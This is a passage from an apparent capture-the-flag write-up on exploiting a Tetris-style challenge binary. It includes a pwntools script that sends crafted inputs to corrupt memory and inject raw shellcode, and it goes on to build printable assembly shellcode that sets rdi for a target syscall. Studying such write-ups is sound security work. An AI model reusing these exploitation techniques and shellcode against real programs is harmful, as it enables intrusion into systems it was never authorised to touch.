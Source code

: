```py
p.send("\nOxaaaaaadssssssssssssssssssJ                 \n")
p.send("\nOxaaaaaassssssssssssssssssZ                 \n")
# increment heap_top
for _ in range((0x40021e-0x40020a)//4):
    p.send("\nIaaaaaa Ia                  \n")
p.send("\nIaaaaaa Ia                  \x50\n")

# would like to write shellcode to 0x40011f
p.send("\nOxaaaaaadssssssssssssssssssI                 \n")
p.send("\nOxaaaaaassssssssssssssssssT                 \n")
# increment heap_top
for _ in range((0x40011f-0x400107)//4):
    p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O \n")
p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O ")
p.send("\xBF\x41\x41\x41\x41\x68\x73\x0D\x40\x00\xC3\n")

# high score baby
p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O \n")

p.interactive()
```

# Optimizing for a Keyboard-Only Solution
Of course, this solution presents some issues for a potential keyboard-only solve. The most obvious is that the shellcode contains non-printable characters. Also, the location we selected for our shellcode is not optimal, because it is far away from what we can create with just the tetromino clipping.

The TAZ and P patches are too specific to move elsewhere, so they'll have to stay put.

First we'll tackle the shellcode location, as it turns out knowing this is pretty critical to writing a short, printable shellcode. `0x400401` in `place_cur_mino` is a good spot, because we can call it easily and its address can be created just by overwriting a `0x04` and `0x01`, both of which we can do.

The printable shellcode presents a challenge. Our end goal is to call `syscall(1337, 0x41414141)`, and the most straightforward way to do this is to set rdi to `0x41414141` and jump to the program's `hw_log` function. Unfortunately, working with rdi is quite difficult with only printable characters. To help me write this shellcode, I found [this page](https://nets.ec/Alphanumeric_shellcode) to be very helpful.

The most straightforward way to change rdi is to use the `xor rdi, QWORD PTR ss:[reg]` instruction. In order to save time, we can skip zeroing the register and simply use the debugger to find the value of rdi at that point, which is `0x13`. Thus, this assembly will set rdi to `0x41414141`.

```nasm
push   rsp
pop    rdx
pop    rax
push   0x41414152
xor    rdi,  QWORD PTR ss:[rdx]
pop    r8
```
